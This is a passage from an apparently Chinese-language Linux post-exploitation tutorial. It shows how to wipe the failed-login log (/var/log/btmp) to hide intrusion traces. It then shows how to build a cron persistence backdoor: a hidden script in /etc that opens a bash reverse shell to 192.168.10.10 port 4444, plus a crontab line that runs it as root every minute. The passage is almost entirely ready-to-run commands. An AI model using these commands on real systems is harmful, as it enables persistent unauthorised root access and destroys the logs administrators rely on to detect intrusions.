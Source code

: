 ### 2.5.2. 清除登录失败日志

```
echo > /var/log/btmp ##此文件默认打开时乱码，可查到登陆失败信息
lastb |grep root ##查不到登陆失败信息
```

![image-20230823090318303](assets/image-20230823090318303.png)

# 3. 定时任务—cron后门

cron后门，主要就是利用系统的定时任务功能实现反弹shell。

## 3.1. 编辑后门反弹

这里创建一个隐藏文件，然后在隐藏文件中添加反弹shell的地址及端口，在给脚本添加一个执行权限。

```
vim /etc/.backshell.sh

#!/bin/bash
bash -i >& /dev/tcp/192.168.10.10/4444 0>&1

chmod +x /etc/.backshell.sh
```

![image-20230823133452190](assets/image-20230823133452190.png)

## 3.2. 添加定时任务

设定每分钟自动执行该脚本。

```
vim /etc/crontab
*/1 * * * * root /etc/.backshell.sh
```
